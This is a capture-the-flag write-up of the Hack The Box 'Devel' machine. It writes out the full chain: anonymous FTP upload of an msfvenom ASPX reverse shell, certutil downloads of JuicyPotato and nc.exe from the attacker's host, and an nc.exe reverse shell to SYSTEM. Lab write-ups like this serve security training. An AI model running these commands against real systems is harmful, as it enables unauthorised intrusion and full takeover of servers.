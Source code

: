 ```yaml
---
layout: post
title: Hack The Box - Devel Writeup
date: 2024-06-07 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```



![develBadge.png](/assets/img/Devel/develBadge.png)

## Summary

Using anonymous login to `ftp` server I got access to web root of `IIS`. It is possible to upload reverse shell via `ftp` and trigger it by accessing it on port 80. While enumerating system as web `user`, I discovered that this user has `SeImpersonatePrivilege` enabled. To exploit this I used `JuicyPotato` in conjunction with the `nc.exe` to get reverse shell with `system` privileges. 

___
## Reconnaissance

### Nmap

```
nmap -sV -sC -oN ./nmap.txt 10.10.10.5
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.180 | **TCP**: 21, 80 |

#### Port 21

##### Anonymous Login

```
ftp anonymous@10.10.10.5
```

![ftpAnonym.png](/assets/img/Devel/ftpAnonym.png)

After logging in anonymously, it looks like I have access to `IIS` web root. 

#### Port 80

##### Technology

![technology.png](/assets/img/Devel/technology.png)

##### Website

![port80.png](/assets/img/Devel/port80.png)


___
## Initial Foothold

### Uploading reverse shell via FTP

If I am able to upload reverse shell via ftp to web root then we I access it on port 80 which will trigger it.

First I created malicious file using `msfvenom`. We know that website is using `Microsoft ASP.NET` framework so I used `.aspx` shell.

```
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.14.38 LPORT=7003 -e x86/shikata_ga_nai -o shell.aspx
```

Next I uploaded `shell.aspx` to web root of server. 

![ftpUploadShell.png](/assets/img/Devel/ftpUploadShell.png)

To trigger reverse shell I accessed uploaded shell on port 80. 

![shellAccess.png](/assets/img/Devel/shellAccess.png)

![reverseSHell.png](/assets/img/Devel/reverseSHell.png)
_____
## Privilege Escalation

### System Enumeration

While checking privileges for current user, I discovered that `SeImpersonatePrivilege` is enabled. There are multiple ways to exploit this so first I checked type of system which is this machine based on. 

```
whoami /priv
```

![whoamiPriv.png](/assets/img/Devel/whoamiPriv.png)

```
systeminfo
```

![systeminfo.png](/assets/img/Devel/systeminfo.png)

We can see that machine is `x86` based so we need to use exploit compatible with this architecture.
### Abusing SeImpersonatePrivilege - Juicy Potato

For privilege escalation I used [`JuicyPotato`](https://github.com/ivanitlearning/Juicy-Potato-x86) in conjunction with the [`nc.exe`](https://github.com/int0x33/nc.exe/) to get reverse shell with `system` privileges.

First I downloaded files from my local machine using `certutil`.

Creating web server on my local machine:
```
python3 -m http.server 7004
```

Downloading files to victim machine:
```
certutil -urlcache -split -f "http://10.10.14.38:7004/Juicy.Potato.x86.exe" Juicy.Potato.x86.exe
```

```
certutil -urlcache -split -f "http://10.10.14.38:7004/nc.exe" nc.exe
```

![juicyDownload.png](/assets/img/Devel/juicyDownload.png)

When all needed files are present on the system we can get reverse shell using this command:
```
.\Juicy.Potato.x86.exe -l 7007 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.38 7005" -t * 
```

![escalation.png](/assets/img/Devel/escalation.png)

![systemShell.png](/assets/img/Devel/systemShell.png)

___
## Post Exploitation

### User.txt

![systemShell.png](/assets/img/Devel/userFlag.png)

### Root.txt

![rootFlag.png](/assets/img/Devel/rootFlag.png)
